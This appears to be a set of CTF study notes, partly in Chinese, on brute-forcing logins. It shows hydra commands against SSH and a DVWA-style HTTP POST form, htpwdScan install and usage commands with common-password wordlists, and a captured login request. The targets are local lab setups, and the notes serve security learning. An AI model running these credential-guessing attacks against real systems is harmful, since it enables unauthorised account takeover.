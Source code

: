 ```
```

### use

* ssh

```
hydra ip -l root -P pass.lst
```

* http post form attack

```
hydra -l admin -P pass.lst -o ok.lst -t 1 -f 127.0.0.1 http-post-form “/login.php:name=^USER^&pwd=^PASS^:incorrect:H=Cookie: security=low; PHPSESSID=o7qiqd9fc1d003u9d38k64t0f4”
```

> http-post-form or http-get-form

> incorrect表示错误猜解的返回信息提示，自定义,最好和页面返回的信息一致，不要略写，不然可能产生错报，具体原因待去看源码

**:H= 表示手工设置的Header**

## htpwdScan

[github htpwdScan][2]

* install

```
cd ~/ctf
git clone https://github.com/lijiejie/htpwdScan.git
cd htpwdScan
chmod u+x
sudo ln -s ~/ctf/htpwdScan/htpwdScan.py /usr/local/bin/htpwdscan    #cofirm htpwdScan.py begin with "#!/usr/bin/env python"
htpwdscan -h    # to run
```

* use

先用 -debug 查看 request and response， after confirming, then crack 

htpwdScan.py 默认使用 htpp post method， if use get, use -get

脚本会自动替换\r \n \t等空白字符
  
**http get crack**

```
htpwdscan -f http_get.txt -d username=top_shortlist_name.txt password=10k_most_common_passwd.txt -get -err="Username and/or password incorrect"
```

> http_get.txt -- use brupsuite get http request, save to file

```
GET /dvwa/vulnerabilities/brute/?Login=Login HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:43.0) Gecko/20100101 Firefox/43.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://localhost/dvwa/vulnerabilities/brute/
Cookie: security=low; PHPSESSID=ij8gd7u55olpvsd39r0ki35cb1
Connection: close
```


[2]: https://github.com/lijiejie/htpwdScan
[3]: http://drops.wooyun.org/tools/1548
[5]: http://www.openwall.com/php_mt_seed/
[6]: https://github.com/pwning/public-writeup/tree/master/hitcon2015/web300-giraffes-coffee
[7]: http://www.gat3way.eu/poc/wtrt/